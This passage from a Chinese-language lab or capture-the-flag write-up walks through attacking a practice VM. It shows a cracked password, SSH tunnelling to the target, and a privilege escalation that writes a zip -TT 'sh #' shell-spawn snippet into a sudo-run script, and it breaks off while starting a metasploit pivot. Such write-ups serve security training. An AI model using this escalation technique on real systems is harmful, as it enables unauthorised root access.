 ![image](https://user-images.githubusercontent.com/64548919/197367366-5ad0140e-9e79-4191-b893-fcbf64b6fbbd.png)

![image](https://user-images.githubusercontent.com/64548919/197391462-3dba46db-1ac3-4798-a930-43747a19b4fa.png)

爆破得到的密码是`bobby4850`。

### PRIVILEGE ESCALATION WITH SUDO

先通过如下方法获得靶机的Bob端SHELL：

```
ssh -L 8888:172.17.0.1:80 bob@192.168.163.137 -p 2222
```

![image](https://user-images.githubusercontent.com/64548919/197397770-c8b3bacd-90ae-4c40-846d-d0ef148d6771.png)

可以查看到有TODO文件及其相关内容：

![image](https://user-images.githubusercontent.com/64548919/197398410-b0607076-036d-4183-8991-6684aa84584e.png)

然后运行`sudo -l`：

![image](https://user-images.githubusercontent.com/64548919/197398519-aae45101-cac9-479d-bde2-ca2b8a6a3ceb.png)

运行`sudo -u bakusr /bin/bash /opt/scripts/check.sh`：

![image](https://user-images.githubusercontent.com/64548919/197398913-4fce1bd0-8a74-4ca9-9698-a1f9e379942b.png)

然后在`check.sh`中添加下述内容：

```shell
tf=$(mktemp -u)
sudo zip $tf /etc/hosts -T -TT 'sh #'
sudo rm $tf
```

再次运行之前的指令，可以发现获得第一个checkpoint：

![image](https://user-images.githubusercontent.com/64548919/197399029-e04ffe91-652b-4fb0-9fdb-194b9c728ef6.png)


### PIVOTING

在获得的Bob用户Shell端扫描172.17.0.1网段：



启动metasploit：

![image](https://user-images.githubusercontent.com/64548919/197380637-bf9a3d59-0cb9-4738-a6bd-e3ccdf8a885a.png)

搜索可用的模块：

![image](https://user-images.githubusercontent.com/64548919/197380709-effb18fc-76fa-4657-a8cd-21dbc8a71aa7.png)

使用其中一个模块：
